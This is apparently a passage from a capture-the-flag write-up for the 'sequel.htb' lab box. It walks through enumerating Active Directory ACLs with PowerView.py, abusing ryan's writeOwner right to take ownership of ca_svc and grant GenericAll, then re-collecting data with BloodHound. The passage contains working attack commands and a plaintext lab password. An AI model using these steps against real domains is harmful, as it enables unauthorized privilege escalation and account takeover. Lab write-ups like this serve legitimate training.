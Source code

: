 ### PowerView.py (Linux)

Trying to get ryan's ACLs manually, from PowerView.py

-[powerview.py github](https://github.com/aniqfakhrul/powerview.py)

```bash
python3 powerview.py 'sequel.htb/ryan:WqSZAF6CysDQbGb3@10.10.11.51'
```
```bash
Get-DomainUser -Identity ryan
```
```bash
Get-DomainUser -Identity ca_svc
```
```bash
Get-DomainObjectAcl -ResolveGUIDs -Identity "ryan"
```

## Abusing ryan's writeOwner over ca svc

![before.png](before.png)

Since ryan has `writeOwner` privilege over `ca_svc` we can set him as owner of `ca_svc`
```bash
Get-Help Set-DomainObjectOwner -full
Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
```

Now that ryan is the owner, he can grant him all rights, `GenericAll`
```bash
Get-Help Add-DomainObjectAcl -full
Add-DomainObjectAcl -PrincipalIdentity "ryan" -TargetIdentity "ca_svc" -Rights All
```

We can now re-ingest everything in bloodhound to check what we've just done
```bash
bloodhound-python \
  -u ryan \
  -p 'WqSZAF6CysDQbGb3' \
  -c All \
  -d sequel.htb \
  --dns-timeout 10 \
  -ns 10.10.11.51
```
